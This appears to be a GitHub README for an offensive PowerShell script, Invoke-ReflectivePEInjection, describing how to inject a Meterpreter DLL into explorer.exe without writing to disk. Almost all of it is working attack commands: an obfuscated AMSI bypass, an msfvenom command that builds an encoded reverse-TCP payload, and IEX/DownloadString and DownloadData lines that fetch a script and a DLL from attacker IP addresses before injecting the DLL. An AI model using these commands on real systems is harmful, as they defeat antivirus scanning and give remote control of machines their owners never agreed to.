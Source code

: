# Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# Prerequesities:
1. Bypass PowerShell AMSI:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)
```

# How to use
1. Create a DLL payload using msfvenom and upload it to the attackers web server (_start metasploit listener with same payload parameters_):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```


2. Import the _Invoke-ReflectivePEInjection.ps1_ script in this repository on the target machine:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.198/Invoke-ReflectivePEInjection.ps1')
```


3. Load the DLL (or .exe) into a byte array and retrieve the `explorer` process ID.
  (**NOTE:** _change the process based on your target environment_):
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.191/met.dll')
$procid = (Get-Process -Name explorer).Id
```


4. Supply the byte array (`-PEBytes`) and process ID (`-ProcId`) and execute the script:
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

**Note:**
Ignore the `VoidFunc` error that appears after running the script, it is purely cosmetic:
![image](https://github.com/user-attachments/assets/29f9cab4-1e05-490d-83d6-55c71ead1ce3)

